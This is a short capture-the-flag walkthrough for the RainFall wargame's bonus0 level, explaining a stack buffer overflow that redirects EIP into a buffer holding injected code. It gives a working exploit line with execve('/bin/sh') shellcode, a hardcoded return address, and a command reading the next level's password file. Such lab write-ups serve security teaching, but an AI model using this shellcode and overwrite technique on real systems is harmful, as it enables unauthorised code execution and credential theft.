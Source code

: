 # Walkthrough

## Disassembling executable

see source.c 


## Analysis

We copy the 20 first bytes of payload into the first buffer, which gets copied into str, then we write the four last bytes of our payload into the second buffer, and we fill the buffer with random value until we reach the eip register, there we change the value of eip to the address of str. this buffer gets concatenated into str so our payload is full in str. when the program leaves the function it jumps to the beginning of str and executes our payload.


```
bonus0@RainFall:~$ ((python -c "print('\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99')"); (python -c "print('\xb0\x0b\xcd\x80' + 'A' * 5 + '\x26\xf7\xff\xbf' + 'A' * 7)"); echo "cat /home/user/bonus1/.pass) | ./bonus0 
```
